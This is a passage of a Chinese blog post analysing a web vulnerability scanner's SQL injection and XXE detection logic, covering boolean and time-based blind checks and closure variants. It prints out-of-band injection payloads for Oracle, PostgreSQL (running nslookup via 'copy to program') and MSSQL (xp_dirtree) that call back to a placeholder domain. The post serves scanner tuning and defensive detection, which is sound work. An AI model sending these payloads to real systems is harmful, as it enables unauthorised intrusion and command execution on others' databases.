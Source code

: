 这样匹配的话，还是比较准确的，但是有的时候会有误报。

**2.盲注入(Blind\_Sql\_Injection.script)**

2.1 bool型的盲注入

我把这部分的扫描逻辑理了一下，大概是这样的：

1. 判断参数是不是有效的，即：输入和原来的值不一样的参数时候，页面(过滤过的，过滤了html标签，当前输入值，原始输入值)是否一样
2. 如果参数有效，就用 and payload 判断是不是存在漏洞(多个判断)
3. 如果参数无效，就用 or payload 判断是不是存在漏洞(多个判断)

我参考以后，发现它会有一些漏扫描，比如 数字型等带有单引号的注入。

然后我决定优化一下，并去掉第三步的验证。因为一般都无有效参数的，无效的参数一般不做检查了，而且or注入可能会导致一些误报等。

2.2 基于时间盲注入

原理很简单，然后数据库去sleep一段时间。payload对应脚本里面找，或者可以参考一下sqlmap的。

然后就是注意各种闭合，比如: ', ", ), )), '), "), ')), ")), ;, 等等

个人的实践告诉我，基于时间的注入检查是最准确的。如果你是甲方的话，基于时间盲注入应该是最适合你的了。因为你可以去监控mysql的慢日志或者异常日志去查询sleep登关键字来结合着一起发现sql注入漏洞，我在实践中是有用这种方法发现过一些比较隐蔽的sql注入的。

**3.结合AcuMonitor盲打**

测试oracle的注入:

```
xxxx||UTL_INADDR.get_host_address('{DOMAIN}')
```

PostgreSQL:

```
{ORIGVALUE};copy (select '') to program 'nslookup {DOMAIN}
```

windows +mssql:

```
{ORIGVALUE};EXEC master..xp_dirtree '\\{DOMAIN}\' -- 
```

同样，也要注意各种闭合。

**6.xxe 优化**

xxe漏洞检测，改变Content-type头（text/xml，application/xml），可能会测出漏洞。

更多脚本还在分析 .......

